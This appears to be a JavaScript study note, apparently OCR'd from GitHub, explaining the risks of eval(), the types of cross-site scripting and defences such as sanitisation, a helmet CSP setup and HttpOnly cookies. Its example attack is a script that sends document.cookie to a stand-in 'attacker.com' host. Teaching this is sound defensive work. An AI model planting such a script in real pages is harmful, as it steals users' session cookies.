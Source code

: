 #### Security & Performance
eval() is a built-in function that evaluates a string as a JavaScript code and dynamically executes it.
    Syntax : eval(String);
    Example : 
        1.
        const expression = "2 + 2";
        console.log(eval(expression)); // Output: 4
        2.
        const jsonString = '{"name": "Alice", "age": 25}';
        const obj = eval("(" + jsonString + ")");
        console.log(obj.name); // Output: Alice
Using eval() can lead to security vulnerabilities and performance issues. For example if string passed to eval function is user-provided, user might execute malicious code. Also eval() bypasses code optimization in the JavaScript engine which can lead to performance issue.
Instead of eval() we can use JSON.parse() for parsing JSON strings

XSS : XSS (Cross-Site Scripting) is a security attack when a user/ hacker insert some malicious script code in input fields to steal or manipulate content or website behavior.
For example we have input element & submit button on web page, then hacker may put malicious script & press the submit button which can change the behavior of the execution & might give the hacker all sensitive details like cookies to the hacker.
// Malicious script to steal cookie
<script>
	console.log("XSS attackl");
	var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
Types of XSS :
1.Stored XSS: The malicious script is stored on the server and delivered to other users (e.g., in a database).
2.Reflected XSS: The malicious script is embedded in a URL and executed when the victim clicks the link.
3.DOM-based XSS: The malicious script manipulates the website’s DOM directly without server interaction.
Prevention Techniques:
1.Input Validation and Sanitization: Validate and sanitize all user inputs using libraries like dompurify. Escape special characters like <, >, and &.
2.Use helmet for CSP (Content Security Policy): It is security middleware for Express.js applications. It helps secure your web application by setting various HTTP headers that protect against common security vulnerabilities, including XSS attacks, clickjacking, and other malicious activities
    npm install helmet
    app.use(
    helmet.contentSecurityPolicy({
        directives: {
            defaultSrc: ["'self'"],
            scriptSrc: ["'self'", "https://trustedscripts.com"],
        },
     })
    );
    contentSecurityPolicy : sets the Content-Security-Policy header in HTTP responses
    directives : object defines specific content types (like scripts, images, etc.) and the allowed sources for those types.
    defaultSrc : specifies the default policy for content sources.
    self' means that all resources must come from the same origin as the current page (the same domain, protocol, and port).In other words, only resources hosted on your server (same domain) will be allowed to load by default.
2.Content Security Policy (CSP): Implement a CSP header to restrict the execution of scripts from untrusted sources.
3.HTTP-Only Cookies: Mark cookies as HttpOnly and Secure to prevent JavaScript access and ensure transmission over HTTPS.
4.Use Frameworks with Built-in Protection: Use templating engines (e.g., Pug, EJS) or frameworks (e.g., Angular, React) that automatically escape data.
5.Avoid eval(): Never use eval() to process user inputs.